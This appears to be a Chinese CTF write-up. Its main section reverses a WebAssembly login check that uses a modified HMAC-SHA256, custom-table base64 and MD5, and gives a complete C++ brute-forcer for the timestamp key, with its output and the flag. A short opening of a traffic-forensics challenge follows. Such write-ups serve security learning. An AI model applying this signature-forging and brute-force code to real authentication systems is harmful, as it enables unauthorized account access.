# wasm-login

网页源代码中发现wasm调用；



check函数为md5，给了MD5的前半段；

测试账号admin/admin；

则执行auth（admin，admin）；



grida分析wasm，找到authentic函数



这里获取了时间戳,然后构建了一个JSON消息；



sha256；





对password换表base64：NhR4UJ+z5qFGiTCaAIDYwZ0dLl6PEXKgostxuMv8rHBp3n9emjQf1cWb2/VkS7yO；


最后还有base64；



总结就是`md5(base64(sha256(/JSON/{"username":"admin","password":"base64("admin")"}/，时间戳)))`的前16位`=="ccaf33e3512e31f3"`

其中时间戳需要爆破；

根据题面提示

时间戳范围为1766160000000到1766368800000；

爆不出来，分析一下`sha256`，发现是HMAC模式，key是时间戳，而且pad常量被改成了`0x76`和`0x3c`  ， inner_digest 在前，opad_block 在后;

```cpp
#include <array>
#include <cstdint>
#include <cstring>
#include <fstream>
#include <iostream>
#include <string>
#include <vector>

// 自定义 base64 表
static const char B64_TABLE[] = "NhR4UJ+z5qFGiTCaAIDYwZ0dLl6PEXKgostxuMv8rHBp3n9emjQf1cWb2/VkS7yO";

static std::string base64_encode(const uint8_t* data, size_t len) {
	std::string out;
	out.reserve(((len + 2) / 3) * 4);
	size_t i = 0;
	while (i + 2 < len) {
		uint32_t triple = (uint32_t(data[i]) << 16) | (uint32_t(data[i + 1]) << 8) | uint32_t(data[i + 2]);
		out.push_back(B64_TABLE[(triple >> 18) & 0x3F]);
		out.push_back(B64_TABLE[(triple >> 12) & 0x3F]);
		out.push_back(B64_TABLE[(triple >> 6) & 0x3F]);
		out.push_back(B64_TABLE[triple & 0x3F]);
		i += 3;
	}
	if (i < len) {
		uint32_t triple = uint32_t(data[i]) << 16;
		if (i + 1 < len) triple |= uint32_t(data[i + 1]) << 8;
		out.push_back(B64_TABLE[(triple >> 18) & 0x3F]);
		out.push_back(B64_TABLE[(triple >> 12) & 0x3F]);
		if (i + 1 < len) {
			out.push_back(B64_TABLE[(triple >> 6) & 0x3F]);
			out.push_back('=');
		} else {
			out += "==";
		}
	}
	return out;
}


// SHA256 实现
namespace sha256_ns {
static inline uint32_t rotr(uint32_t x, uint32_t n) { return (x >> n) | (x << (32 - n)); }
static inline uint32_t ch(uint32_t x, uint32_t y, uint32_t z) { return (x & y) ^ (~x & z); }
static inline uint32_t maj(uint32_t x, uint32_t y, uint32_t z) { return (x & y) ^ (x & z) ^ (y & z); }
static inline uint32_t big_sigma0(uint32_t x) { return rotr(x, 2) ^ rotr(x, 13) ^ rotr(x, 22); }
static inline uint32_t big_sigma1(uint32_t x) { return rotr(x, 6) ^ rotr(x, 11) ^ rotr(x, 25); }
static inline uint32_t small_sigma0(uint32_t x) { return rotr(x, 7) ^ rotr(x, 18) ^ (x >> 3); }
static inline uint32_t small_sigma1(uint32_t x) { return rotr(x, 17) ^ rotr(x, 19) ^ (x >> 10); }

static const uint32_t K[64] = {
	0x428a2f98, 0x71374491, 0xb5c0fbcf, 0xe9b5dba5, 0x3956c25b, 0x59f111f1, 0x923f82a4, 0xab1c5ed5,
	0xd807aa98, 0x12835b01, 0x243185be, 0x550c7dc3, 0x72be5d74, 0x80deb1fe, 0x9bdc06a7, 0xc19bf174,
	0xe49b69c1, 0xefbe4786, 0x0fc19dc6, 0x240ca1cc, 0x2de92c6f, 0x4a7484aa, 0x5cb0a9dc, 0x76f988da,
	0x983e5152, 0xa831c66d, 0xb00327c8, 0xbf597fc7, 0xc6e00bf3, 0xd5a79147, 0x06ca6351, 0x14292967,
	0x27b70a85, 0x2e1b2138, 0x4d2c6dfc, 0x53380d13, 0x650a7354, 0x766a0abb, 0x81c2c92e, 0x92722c85,
	0xa2bfe8a1, 0xa81a664b, 0xc24b8b70, 0xc76c51a3, 0xd192e819, 0xd6990624, 0xf40e3585, 0x106aa070,
	0x19a4c116, 0x1e376c08, 0x2748774c, 0x34b0bcb5, 0x391c0cb3, 0x4ed8aa4a, 0x5b9cca4f, 0x682e6ff3,
	0x748f82ee, 0x78a5636f, 0x84c87814, 0x8cc70208, 0x90befffa, 0xa4506ceb, 0xbef9a3f7, 0xc67178f2,
};

static std::array<uint8_t, 32> hash(const uint8_t* data, size_t len) {
	uint32_t H[8] = {
		0x6a09e667, 0xbb67ae85, 0x3c6ef372, 0xa54ff53a,
		0x510e527f, 0x9b05688c, 0x1f83d9ab, 0x5be0cd19,
	};

	const uint64_t bitlen = uint64_t(len) * 8;
	const size_t padLen = ((len + 9) % 64) ? (64 - (len + 9) % 64) : 0;
	const size_t total = len + 1 + padLen + 8;

	std::vector<uint8_t> msg(total, 0);
	if (len) std::memcpy(msg.data(), data, len);
	msg[len] = 0x80;
	for (int i = 0; i < 8; ++i) {
		msg[total - 1 - i] = uint8_t((bitlen >> (8 * i)) & 0xFF);
	}

	for (size_t offset = 0; offset < total; offset += 64) {
		uint32_t W[64];
		for (int i = 0; i < 16; ++i) {
			W[i] = (uint32_t(msg[offset + 4 * i]) << 24) | (uint32_t(msg[offset + 4 * i + 1]) << 16) |
				   (uint32_t(msg[offset + 4 * i + 2]) << 8) | (uint32_t(msg[offset + 4 * i + 3]));
		}
		for (int i = 16; i < 64; ++i) {
			W[i] = small_sigma1(W[i - 2]) + W[i - 7] + small_sigma0(W[i - 15]) + W[i - 16];
		}

		uint32_t a = H[0], b = H[1], c = H[2], d = H[3], e = H[4], f = H[5], g = H[6], h = H[7];
		for (int i = 0; i < 64; ++i) {
			uint32_t T1 = h + big_sigma1(e) + ch(e, f, g) + K[i] + W[i];
			uint32_t T2 = big_sigma0(a) + maj(a, b, c);
			h = g;
			g = f;
			f = e;
			e = d + T1;
			d = c;
			c = b;
			b = a;
			a = T1 + T2;
		}
		H[0] += a;
		H[1] += b;
		H[2] += c;
		H[3] += d;
		H[4] += e;
		H[5] += f;
		H[6] += g;
		H[7] += h;
	}

	std::array<uint8_t, 32> out{};
	for (int i = 0; i < 8; ++i) {
		out[4 * i] = uint8_t((H[i] >> 24) & 0xFF);
		out[4 * i + 1] = uint8_t((H[i] >> 16) & 0xFF);
		out[4 * i + 2] = uint8_t((H[i] >> 8) & 0xFF);
		out[4 * i + 3] = uint8_t(H[i] & 0xFF);
	}
	return out;
}
} // namespace sha256_ns

static std::array<uint8_t, 32> hmac_sha256_variant_763c(const uint8_t* key, size_t key_len, const uint8_t* msg,
														size_t msg_len) {
	std::array<uint8_t, 64> key_block{};
	if (key_len > 64) {
		auto kh = sha256_ns::hash(key, key_len);
		std::memcpy(key_block.data(), kh.data(), kh.size());
	} else {
		if (key_len) std::memcpy(key_block.data(), key, key_len);
	}

	std::array<uint8_t, 64> ipad{}, opad{};
	for (size_t i = 0; i < 64; ++i) {
		ipad[i] = uint8_t(key_block[i] ^ 0x76);  // 非标准: 0x76 而非 0x36
		opad[i] = uint8_t(key_block[i] ^ 0x3c);  // 非标准: 0x3c 而非 0x5c
	}

	std::vector<uint8_t> inner_msg;
	inner_msg.reserve(64 + msg_len);
	inner_msg.insert(inner_msg.end(), ipad.begin(), ipad.end());
	inner_msg.insert(inner_msg.end(), msg, msg + msg_len);
	auto inner = sha256_ns::hash(inner_msg.data(), inner_msg.size());

	// 非标准: 顺序为 inner_digest || opad（标准是 opad || inner_digest）
	std::vector<uint8_t> outer_msg;
	outer_msg.reserve(inner.size() + 64);
	outer_msg.insert(outer_msg.end(), inner.begin(), inner.end());
	outer_msg.insert(outer_msg.end(), opad.begin(), opad.end());
	return sha256_ns::hash(outer_msg.data(), outer_msg.size());
}

// MD5 实现
namespace md5_ns {
static inline uint32_t F(uint32_t x, uint32_t y, uint32_t z) { return (x & y) | (~x & z); }
static inline uint32_t G(uint32_t x, uint32_t y, uint32_t z) { return (x & z) | (y & ~z); }
static inline uint32_t H(uint32_t x, uint32_t y, uint32_t z) { return x ^ y ^ z; }
static inline uint32_t I(uint32_t x, uint32_t y, uint32_t z) { return y ^ (x | ~z); }
static inline uint32_t ROTL(uint32_t x, uint32_t n) { return (x << n) | (x >> (32 - n)); }

static const uint32_t S[64] = {
	7,  12, 17, 22, 7,  12, 17, 22, 7,  12, 17, 22, 7,  12, 17, 22, 5,  9,  14, 20, 5,  9,
	14, 20, 5,  9,  14, 20, 5,  9,  14, 20, 4,  11, 16, 23, 4,  11, 16, 23, 4,  11, 16, 23,
	4,  11, 16, 23, 6,  10, 15, 21, 6,  10, 15, 21, 6,  10, 15, 21, 6,  10, 15, 21,
};
static const uint32_t K[64] = {
	0xd76aa478, 0xe8c7b756, 0x242070db, 0xc1bdceee, 0xf57c0faf, 0x4787c62a, 0xa8304613, 0xfd469501,
	0x698098d8, 0x8b44f7af, 0xffff5bb1, 0x895cd7be, 0x6b901122, 0xfd987193, 0xa679438e, 0x49b40821,
	0xf61e2562, 0xc040b340, 0x265e5a51, 0xe9b6c7aa, 0xd62f105d, 0x02441453, 0xd8a1e681, 0xe7d3fbc8,
	0x21e1cde6, 0xc33707d6, 0xf4d50d87, 0x455a14ed, 0xa9e3e905, 0xfcefa3f8, 0x676f02d9, 0x8d2a4c8a,
	0xfffa3942, 0x8771f681, 0x6d9d6122, 0xfde5380c, 0xa4beea44, 0x4bdecfa9, 0xf6bb4b60, 0xbebfbc70,
	0x289b7ec6, 0xeaa127fa, 0xd4ef3085, 0x04881d05, 0xd9d4d039, 0xe6db99e5, 0x1fa27cf8, 0xc4ac5665,
	0xf4292244, 0x432aff97, 0xab9423a7, 0xfc93a039, 0x655b59c3, 0x8f0ccc92, 0xffeff47d, 0x85845dd1,
	0x6fa87e4f, 0xfe2ce6e0, 0xa3014314, 0x4e0811a1, 0xf7537e82, 0xbd3af235, 0x2ad7d2bb, 0xeb86d391,
};

static std::array<uint8_t, 16> hash(const uint8_t* data, size_t len) {
	uint32_t a0 = 0x67452301, b0 = 0xefcdab89, c0 = 0x98badcfe, d0 = 0x10325476;
	const uint64_t bitlen = uint64_t(len) * 8;
	const size_t padLen = (len % 64 < 56) ? (56 - (len % 64)) : (120 - (len % 64));
	const size_t total = len + padLen + 8;

	std::vector<uint8_t> msg(total, 0);
	if (len) std::memcpy(msg.data(), data, len);
	msg[len] = 0x80;
	for (int i = 0; i < 8; ++i) msg[total - 8 + i] = uint8_t((bitlen >> (8 * i)) & 0xFF);

	for (size_t offset = 0; offset < total; offset += 64) {
		uint32_t M[16];
		for (int i = 0; i < 16; ++i) {
			M[i] = (uint32_t(msg[offset + 4 * i])) | (uint32_t(msg[offset + 4 * i + 1]) << 8) |
				   (uint32_t(msg[offset + 4 * i + 2]) << 16) | (uint32_t(msg[offset + 4 * i + 3]) << 24);
		}

		uint32_t A = a0, B = b0, C = c0, D = d0;
		for (int i = 0; i < 64; ++i) {
			uint32_t Fval, g;
			if (i < 16) {
				Fval = F(B, C, D);
				g = i;
			} else if (i < 32) {
				Fval = G(B, C, D);
				g = (5 * i + 1) % 16;
			} else if (i < 48) {
				Fval = H(B, C, D);
				g = (3 * i + 5) % 16;
			} else {
				Fval = I(B, C, D);
				g = (7 * i) % 16;
			}

			uint32_t tmp = D;
			D = C;
			C = B;
			B = B + ROTL(A + Fval + K[i] + M[g], S[i]);
			A = tmp;
		}
		a0 += A;
		b0 += B;
		c0 += C;
		d0 += D;
	}

	std::array<uint8_t, 16> out{};
	uint32_t Hs[4] = {a0, b0, c0, d0};
	for (int i = 0; i < 4; ++i) {
		out[4 * i] = uint8_t(Hs[i] & 0xFF);
		out[4 * i + 1] = uint8_t((Hs[i] >> 8) & 0xFF);
		out[4 * i + 2] = uint8_t((Hs[i] >> 16) & 0xFF);
		out[4 * i + 3] = uint8_t((Hs[i] >> 24) & 0xFF);
	}
	return out;
}
} // namespace md5_ns

static std::string to_hex(const uint8_t* data, size_t len) {
	static const char* hex = "0123456789abcdef";
	std::string s;
	s.resize(len * 2);
	for (size_t i = 0; i < len; ++i) {
		s[2 * i] = hex[(data[i] >> 4) & 0xF];
		s[2 * i + 1] = hex[data[i] & 0xF];
	}
	return s;
}

static std::string json_escape(const std::string& s) {
	std::string out;
	out.reserve(s.size());
	for (unsigned char c : s) {
		if (c == '\\') out += "\\\\";
		else if (c == '"') out += "\\\"";
		else out.push_back(char(c));
	}
	return out;
}

int main(int argc, char** argv) {
	std::string username = (argc >= 2) ? argv[1] : "admin";
	std::string password = (argc >= 3) ? argv[2] : "admin";
	
	const int64_t START_TS = 1766073600000;
	const int64_t END_TS = 1766368800000;
	const std::string TARGET_PREFIX = "ccaf33e3512e31f3";
	const int64_t total = END_TS - START_TS + 1;
	int found = 0;

	// 1. password base64 编码
	const std::string password_b64 = base64_encode(
		reinterpret_cast<const uint8_t*>(password.data()), password.size());
	
	// 2. 构建 message JSON
	const std::string message_json = 
		"{\"username\":\"" + json_escape(username) + "\",\"password\":\"" + json_escape(password_b64) + "\"}";
	
	std::cout << "Username: " << username << std::endl;
	std::cout << "Password(base64): " << password_b64 << std::endl;
	std::cout << "Message JSON: " << message_json << std::endl;
	std::cout << "Timestamp range: [" << START_TS << ", " << END_TS << "]" << std::endl;
	std::cout << "Target MD5 prefix: " << TARGET_PREFIX << std::endl << std::endl;

	for (int64_t idx = 0, ts = START_TS; ts <= END_TS; ++ts, ++idx) {
		const std::string ts_str = std::to_string(ts);
		
		// 3. HMAC-SHA256(message_json, key=timestamp) 使用非标准变体
		auto hmac_result = hmac_sha256_variant_763c(
			reinterpret_cast<const uint8_t*>(ts_str.data()), ts_str.size(),
			reinterpret_cast<const uint8_t*>(message_json.data()), message_json.size());
		
		// 4. signature = base64(hmac_result)
		const std::string signature = base64_encode(hmac_result.data(), hmac_result.size());
		
		// 5. 构建最终 data JSON
		const std::string data_json = 
			"{\"username\":\"" + json_escape(username) + "\",\"password\":\"" + 
			json_escape(password_b64) + "\",\"signature\":\"" + json_escape(signature) + "\"}";
		
		// 6. MD5(data_json)
		auto md5_digest = md5_ns::hash(
			reinterpret_cast<const uint8_t*>(data_json.data()), data_json.size());
		const std::string md5_hex = to_hex(md5_digest.data(), md5_digest.size());
		
		// 7. 检查前缀
		if (md5_hex.rfind(TARGET_PREFIX, 0) == 0) {
			++found;
			std::cout << "\n=== FOUND ===" << std::endl;
			std::cout << "Timestamp: " << ts << std::endl;
			std::cout << "MD5: " << md5_hex << std::endl;
			std::cout << "Signature: " << signature << std::endl;
			std::cout << "Data JSON: " << data_json << std::endl << std::endl;
			
			std::ofstream ofs("signatures.txt", std::ios::app);
			if (ofs) ofs << ts << "," << md5_hex << "," << signature << "," << data_json << "\n";
		}

		if (idx % 100000 == 0 && idx > 0) {
			const int pct = int((idx * 100) / total);
			std::cout << "Progress: " << idx << "/" << total << " (" << pct << "%)" << std::endl;
		}
	}

	std::cout << "\nDone! Checked " << total << " timestamps, found " << found << " matches." << std::endl;
	return 0;
}

```

`Progress 260950000/295200001 (88%)`
`FOUND ts=1766334550699 md5=ccaf33e3512e31f36228f0b97ccbc8f1`
`signature_b64=LxZiwA05Y9h7wX1CI0gUitOE2LBy9y8McoBqWgKIdDo=`
`data_json={"username":"admin","password":"L0In602=","signature":"LxZiwA05Y9h7wX1CI0gUitOE2LBy9y8McoBqWgKIdDo="}`

**flag{ccaf33e3512e31f36228f0b97ccbc8f1}**


# Snakebackdoor1


通过导出的文本过滤器筛选login文件找出登录请求最后一个，302FOUND；





